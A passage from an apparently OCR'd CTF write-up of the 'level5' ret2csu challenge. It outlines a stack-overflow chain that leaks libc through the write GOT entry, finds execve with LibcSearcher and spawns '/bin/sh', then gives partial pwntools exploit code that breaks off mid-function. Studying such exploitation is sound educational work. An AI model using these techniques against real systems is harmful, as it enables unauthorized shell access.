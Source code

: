 
- Execute libc_csu_gadgets with stack overflow to get the address of the write function and cause the program to re-execute the main function
- Get the corresponding libc version and execve function address according to libcsearcher
- Re-execute libc_csu_gadgets with stack overflow to write the execve address and the &#39;/bin/sh&#39; address to the bss section and cause the program to re-execute the main function.
- Execute libc_csu_gadgets again with stack overflow to execute execve(&#39;/bin/sh&#39;) to get the shell.


Exp is as follows


```python

from pwn import *

from LibcSearcher import LibcSearcher



#context.log_level = 'debug'



level5 = ELF (&#39;./ level5&#39;)
sh = process('./level5')



write_got = level5.got['write']

read_got = level5.got['read']

main_addr = level5.symbols['main']

bss_base = level5.bss()

csu_front_addr = 0x0000000000400600

csu_end_addr = 0x000000000040061A

fakeebp = 'b' * 8





def csu(rbx, rbp, r12, r13, r14, r15, last):

    # pop rbx,rbp,r12,r13,r14,r15

    # rbx should be 0,

    # rbp should be 1,enable not to jump

    # r12 should be the function we want to call

# rdi = ID = r15d
# rsi = r14
    # rdx=r13

    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(

        r13) + p64(r14) + p64(r15)
```